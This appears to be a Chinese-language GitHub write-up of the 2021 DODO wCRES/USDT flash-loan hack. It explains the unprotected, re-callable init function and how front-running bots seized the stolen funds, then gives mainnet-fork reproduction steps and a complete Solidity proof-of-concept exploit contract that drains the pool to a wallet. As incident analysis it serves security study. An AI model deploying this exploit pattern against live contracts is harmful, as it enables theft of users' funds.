 # 0x00 概述

2021年3月,去中心化交易平台 DODO被黑客攻击的，仅仅 wCRES/USDT V2 一个交易对就被转走价值近 98 万美元的 wCRES 和近 114 万美元的 USDT.

漏洞原理其实比较简单，一句话描述就是`Init函数为Public且可被多次调用`.

但精彩的地方在于,攻击者并没有成功拿到超200万美金的赃款,而被Front Running Bot截了胡.

# 0x01 事件分析

* 攻击合约
```
0x910FD17B9Bfc42A6eEA822912f036EF5a080Be8A
```

* 攻击交易
```
0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e
```
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack_tx.png)

* 问题代码如下

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/vul_code.png)

> 攻击者首先生成两种垃圾Token
> 调用 `wCRES/USDT` 交易对合约的flashLoan函数 借出上百万美金的wCRES 和USDT
> 通过init 函数把两个Token 地址改为自己刚刚生成的两个垃圾Token
> 并把垃圾Token 还给交易对合约, 躲过require的检查

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/require.png)

> 讽刺的是该合约声明了`notInitialized`的modifier,但是确并没有使用...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/modifier.png)

> 好玩的地方来了, 也许是攻击合约中的`Transfer Back`函数命名过于普通?并且同样为`Public`权限, 攻击者两次想把赃款从合约中提取出来的行为都被Bot监控到并且抢先提款,攻击者提了个寂寞...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Front%20Running.png)


> 只能说明Dark Forest名不虚传.

# 0x02 复现方法

* 攻击事件发生在高度为`12000165`的块上, 所以我们可以选稍早的块去Fork以太坊的主网

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@12000000
```

* 通过ERC20Factory 生成两个垃圾Token 

> 由于ganache拿不到正确的返回值，也查不到Event 
> 所以需要修改一下ERC20Factory合约
> 这样才能查到新生成的Token地址是什么...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/erc20_newToken.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/ERC20_factory.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Add_Token_On_Metamask.png)

* 为了方便我已经手动把两个垃圾Token 打给了`wCRES/USDT` 交易对合约地址

* 攻击合约如下

```js
/**
 *Submitted for verification at Etherscan.io on 2021-01-22
*/

/*

    Copyright 2020 DODO ZOO.
    SPDX-License-Identifier: Apache-2.0

*/

pragma solidity 0.6.9;
pragma experimental ABIEncoderV2;

interface DVM{
    
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;        
    
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface USDT{
    //USDT 并没有完全遵循 ERC20 标准 所以其接口需单独定义
    function transfer(address to, uint value) external;
    function balanceOf(address account) external view returns (uint);
}


contract poc{
    
    
    uint256 wCRES_amount =  130000000000000000000000;
    
    uint256 usdt_amount =  1100000000000;
    
    address wCRES_token = 0xa0afAA285Ce85974c3C881256cB7F225e3A1178a;
    
    address usdt_token = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    
    address maintainer = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    

    // 这里是刚生产的Token1地址
    address token1 = 0xAB48b42e6a98e671ff58338D5dD2fE44409b82D6;
    // 这里是刚生产的Token2地址
    address token2 = 0x1469A47A1700Cdf4cF030c0Fc7F2f45F24008228;
    
    uint256 lpFeeRate = 3000000000000000;
    
    address mtFeeRateModel = 0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01;
    
    uint256 i = 1;
    
    uint256 k = 1000000000000000000;
    
    bool isOpenTWAP = false;
    

    // 这里填你的测试地址
    address  wallet = 0x;
    
    address dvm_wCRES_USDT =  0x051EBD717311350f1684f89335bed4ABd083a2b6;
    
    function attack() public {
        
        address me = address(this);
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.flashLoan(wCRES_amount,usdt_amount,me,"0x");
        
    }

    
    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public{
        
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.init(maintainer,token1,token2,lpFeeRate,mtFeeRateModel,i,k,isOpenTWAP);
        
        Token(wCRES_token).transfer(wallet, Token(wCRES_token).balanceOf(address(this)));
        USDT(usdt_token).transfer(wallet, Token(usdt_token).balanceOf(address(this)));
        
    }

}
```

* 攻击
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack.png)

* 成功
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Success.png)
